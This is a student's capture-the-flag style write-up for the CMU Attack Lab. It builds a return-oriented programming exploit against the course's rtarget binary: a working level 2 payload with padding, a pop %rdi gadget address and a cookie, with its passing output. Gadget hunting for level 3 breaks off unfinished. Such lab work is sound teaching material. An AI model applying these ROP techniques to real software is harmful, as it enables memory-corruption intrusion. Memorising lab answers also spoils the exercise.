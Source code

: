 # ROP

## level 2

Requirement : 

> You can construct your solution using gadgets consisting of the following instruction types, and using only the ﬁrst eight x86-64 registers (%rax–%rdi).

According my original Phase 2 answer:

```
30 31 32 33 34 35 36 37 38 39   /* 34 characters padding */
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 
bf fa 97 b9 59       	        /* mov    $0x59b997fa,%edi  */
c3                   	        /* retq                     */
9a dc 61 55 00 00 00 00         /* return addr shellcode: 0x5561dca0 <- return ip (now) */
ec 17 40 00 00 00 00 00 0a      /* return addr touch2 */
```

I should rewrite the `mov    $0x59b997fa,%edi` instruction using the gadgets given. 

I thought of laying the value 0x59b997fa on the stack and using `pop %rdi` instruction, which is encoded `5f`. 

And I found one: `  401419:	69 c0 **5f c3** 00 00    	imul   $0xc35f,%eax,%eax`. This instruction starts at address `0x401419`, which is the code section and will not change on each run. So the gadget sharts at `0x40141b`.

Then I can easily write the following code.

```
30 31 32 33 34 35 36 37 38 39   /* 40 characters padding */
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 bf fa 97 b9 59 c3 
1b 14 40 00 00 00 00 00         /* return rop: 0x40141b */
fa 97 b9 59 00 00 00 00         /* the cookie value to be poped */
ec 17 40 00 00 00 00 00 0a      /* return addr touch2 */
```

Results:

```
ainevsia@linux:~/target1$ ./rtarget -q -i exploit-raw.rl2
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 BF FA 97 B9 59 C3 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```

## level 3

I think I should first make up the value `35 39 62 39 39 37 66 61` on the stack and I also need a pointer to it. How can i place the pointer on to the stack? 

Maybe `movq %rsp, %rdi` encoded `48 89 e7`, let's find:

```
    4019a0:	8d 87 48 89 c7 c3    	movq %rax, %rdi
    401a03:	8d 87 41 48 89 e0 c3  	movq %rsp, %rax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	retq   
```

OK, now i can already get the pointer to the stack. Next the challenge is how to make up the value `35 39 62 39 39 37 66 61`, whcih is `0x6166373939623935` in hex. Well it's easy, just place it in our string.

